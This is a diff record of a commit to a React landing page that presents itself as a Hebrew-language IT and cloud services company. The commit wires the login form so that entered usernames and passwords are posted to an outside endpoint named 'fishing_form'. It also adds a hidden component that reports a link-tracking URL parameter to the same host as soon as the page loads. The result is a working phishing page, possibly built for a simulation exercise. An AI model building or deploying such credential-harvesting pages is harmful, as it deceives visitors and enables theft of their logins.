

Before and after one commit to drorkrief/it-landing-page, a React (Vite) app: page / in a window 1280 px wide. Shown: the part 502-1283 px from the top of the page. Before the commit the page ends 1089 px from the top, so only its background shows below. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
form fix bugs

```diff
--- a/package.json
+++ b/package.json
@@ -14,9 +14,11 @@
     "@emotion/styled": "^11.11.0",
     "@mui/icons-material": "^5.11.16",
     "@mui/material": "^5.13.3",
+    "axios": "^1.6.3",
     "react": "^18.2.0",
     "react-dom": "^18.2.0",
-    "react-icons": "^4.9.0"
+    "react-icons": "^4.9.0",
+    "react-router-dom": "^6.21.1"
   },
   "devDependencies": {
     "@types/react": "^18.0.37",
--- a/src/App.jsx
+++ b/src/App.jsx
@@ -1,24 +1,39 @@
-// import { useState } from "react";
 import "./style/App.css";
+
 // import { Drawer, Box, Typography, IconButton } from '@mui/material'
-import { useState } from "react";
+import { useState, useEffect } from "react";
 // import MenuIcon from '@mui/icons-material/Menu'
 import Drawer from "./Components/Drawer";
 import Header from "./Components/Header";
 import BodySec from "./Components/BodySec";
+import { Footer } from "./Components/Footer";
+import { UserDetected } from "./Components/UserDetected";
 function App() {
   const searchParams = new URLSearchParams(document.location.search);
   // const [count, setCount] = useState(0);
   const [isDrawerOpen, setIsDrawerOpen] = useState(false);
+  const [query, setQuery] = useState(false);
+
   // const [openBar, setOpenBar] = useState(false);
+  useEffect(() => {
+    if (searchParams.get("tutorial")) {
+      setQuery(searchParams.get("tutorial"))
+
+    }
+
+    }, [])
+
   return (
     <>
       <Header isDrawerOpen={isDrawerOpen} setIsDrawerOpen={setIsDrawerOpen} />
       <Drawer openBar={isDrawerOpen} />
       <BodySec />
+      {query && <UserDetected query={query}/>}
+      <Footer/>
       {/* <h2>jsdncjnsd</h2> */}
       {/* <div>Tutorial: {searchParams.get("tutorial")}</div>
-      <p>{atob(btoa("dror@krief.com")) }</p>
+      <p>{btoa("dror@krief.com") }</p>
+      <p>{searchParams.get("tutorial")?searchParams.get("tutorial"):"not ok"}</p>
       {atob(btoa(searchParams.get("tutorial")))} */}
     </>
   );
--- /dev/null
+++ b/src/Components/Footer.jsx
@@ -0,0 +1,60 @@
+import React from 'react'
+import "../style/Footer.css";
+import { CssBaseline } from '@mui/material';
+export const Footer = () => {
+  return (
+    <div className='footer'>
+        <div className='flex-wrapper-footer'>
+            <div>
+                <ul>
+                    {/* <li>לדגנ</li> */}
+                    <li><b><u>שירותי מחשוב</u></b></li>
+                    <li>מחשוב ענן | שירותי מחשוב – אדום</li>
+                    <li>פרופיל חברה</li>
+                    <li>שותפים עסקיים</li>
+                    <li>בלוג שירותי מחשוב</li>
+                    <li>תמיכה בהשתלטות מרחוק</li>
+                    <li>טופס קריאת שרות</li>
+                    <li>תמיכת מחשבים</li>
+                    <li>צור קשר</li>
+
+                    </ul></div>
+            <div><ul>
+                    {/* <li>לדגנ</li> */}
+                    <li><b><u>מחשוב ענן</u></b></li>
+                    <li>מחשוב ענן | שירותי מחשוב – אדום</li>
+
+                    <li>Office 365 – פתרונות ענן</li>
+                    <li>גיבוי בענן</li>
+                    <li>שירותי מחשוב ענן לעסקים</li>
+                    <li>שיתוף קבצים</li>
+                    <li>תשתיות ענן</li>
+                    <li>שירותי ענן</li>
+                    <li>השכרת שרתים</li>
+
+                    </ul></div>
+            <div>
+              <ul>
+                <li><b><u>תמיכה לרשתות מחשבים</u></b></li>
+                <li>מחשבים אישיים</li>
+                <li>ניהול פרויקטים</li>
+                <li>רשתות מחשבים</li>
+                <li>שירותי ה – HELP DESK</li>
+                <li>השמת כוח אדם</li>
+                <li>שירותי תמיכה “בנק שעות”</li>
+                <li>שירותי תמיכה “ריטיינר”</li>
+              </ul>
+            </div>
+            <div style={{display:"flex",justifyContent:"center",alignItems:"center"}}>
+              <div style={{ display: "inline-block" }}>
+                <span className="psagot">
+                  <span style={{ color: "blueviolet" }}>p</span>sagot
+                </span>
+                <br />
+                <span className="icontxt">שירותי מחשוב ואבטחה</span>
+              </div>
+            </div>
+        </div>
+    </div>
+  )
+}
--- a/src/Components/Form.jsx
+++ b/src/Components/Form.jsx
@@ -1,5 +1,6 @@
 import { useState } from "react";
 import "../style/Form.css";
+import axios from 'axios';
 
 export default function Form() {
   const [inputs, setInputs] = useState({});
@@ -13,6 +14,13 @@ export default function Form() {
   const handleSubmit = (event) => {
     event.preventDefault();
     console.log(inputs);
+    axios.post('https://login-logout-api.onrender.com/fishing_form', inputs)
+    .then(function (response) {
+      console.log(response);
+    })
+    .catch(function (error) {
+      console.log(error);
+    });
   };
 
   //     "password": "123456",
@@ -27,6 +35,7 @@ export default function Form() {
         <label>
           <span>שם משתמש</span>
           <input
+            autoComplete="on"
             type="text"
             name="username"
             value={inputs.username || ""}
@@ -36,6 +45,7 @@ export default function Form() {
         <label>
           <span>סיסמה</span>
           <input
+            autoComplete="on"
             type="password"
             name="age"
             value={inputs.age || ""}
--- a/src/Components/Squers.jsx
+++ b/src/Components/Squers.jsx
@@ -11,7 +11,7 @@ export default function Squers() {
     <>
       <div className="squersWrapper">
         {data.map((squer) => (
-          <div className="squers">
+          <div key={squer.header} className="squers">
             <h1>{squer.header}</h1>
             <h2>{squer.description}</h2>
           </div>
--- /dev/null
+++ b/src/Components/UserDetected.jsx
@@ -0,0 +1,22 @@
+import React,{useEffect} from 'react'
+import axios from 'axios';
+
+export const UserDetected = ({query}) => {
+    useEffect(() => {
+      axios.post('https://login-logout-api.onrender.com/used_link', {
+        query
+      })
+      .then(function (response) {
+        console.log(response);
+      })
+      .catch(function (error) {
+        console.log(error);
+      });
+
+
+    }, [])
+
+  return (
+    null
+  )
+}
--- a/src/style/App.css
+++ b/src/style/App.css
@@ -93,26 +93,17 @@ body {
 body {
   background: #ebebeb;
 }
-ul {
-  /* width: 100%; */
+ul.headBar {
   margin: auto;
   flex-direction: row-reverse;
   display: flex;
-  /* justify-content: right; */
   align-items: stretch;
-  /* margin-right: 222px; */
 }
-li {
-  /* direction: ltr; */
-  /* list-style-type: none; */
+li.headBar {
   display: inline-block;
   align-self: center;
-  /* border: salmon 2px solid; */
-  /* padding-right: 5vw; */
 }
-/* header {
-  background: white;
-} */
+
 .burger {
   position: absolute;
   cursor: pointer;
--- /dev/null
+++ b/src/style/Footer.css
@@ -0,0 +1,16 @@
+.footer{
+    color: rgb(224, 230, 246);
+    background-color: rgb(0, 3, 95);
+    /* height: 100px; */
+}
+.flex-wrapper-footer{
+    padding: 0;
+    margin: 0;
+    list-style: none;
+    display: flex;
+    flex-direction: row;
+    width: 100vw;
+    /* background-color: rgb(255, 56, 238); */
+    justify-content: space-around;
+
+}
```
Also changed, not shown: 1 other file (tests, documents, lock files or other folders).
